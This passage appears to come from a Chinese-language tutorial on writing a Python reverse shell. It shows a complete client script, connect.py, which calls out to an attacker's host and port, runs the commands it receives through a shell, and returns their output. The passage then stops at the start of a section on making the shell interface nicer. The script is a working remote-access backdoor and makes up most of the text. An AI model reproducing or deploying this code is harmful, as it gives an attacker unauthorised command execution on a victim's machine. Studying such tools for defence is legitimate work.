 **connect.py**

```
#!/usr/bin/python
#coding:utf-8

import socket,subprocess as sp,sys                    # 导入subprocess，socket模块

# 1）连接信息
host = sys.argv[1]                                   # 攻击者地址，通常留空''
port = int(sys.argv[2])                              # 攻击者主机端口

# 2）套接字部分
conn = socket.socket(socket.AF_INET,socket.SOCK_STREAM) # 安装套接字
conn.connect((host,port))

while 1:
    command = str(conn.recv(1024))

    if command != "exit()":
        sh = sp.Popen(command,shell=True,
                      stdout=sp.PIPE,
                      stderr=sp.PIPE,
                      stdin=sp.PIPE)

        out,err = sh.communicate()   # 与进程交互：将数据发送到标准输入。从标准输出和标准错误读取数据，直至到达文件末尾。

        result = str(out) + str(err)

        length = str(len(result)).zfill(16)

        conn.send(length + result)
    else:
        break


conn.close()
```



## 0x2 第二部分：美化Shell界面

在第二部分教程中，我们会把服务器端脚本的Shell界面进行美化。

### <a class="reference-link" name="2.1%20%E6%9C%8D%E5%8A%A1%E7%AB%AF%E4%BB%A3%E7%A0%81"></a>2.1 服务端代码

#### <a class="reference-link" name="Import-%E5%AF%BC%E5%85%A5%E6%A8%A1%E5%9D%97%E5%A3%B0%E6%98%8E"></a>Import-导入模块声明

我们导入模块声明的语句如下：

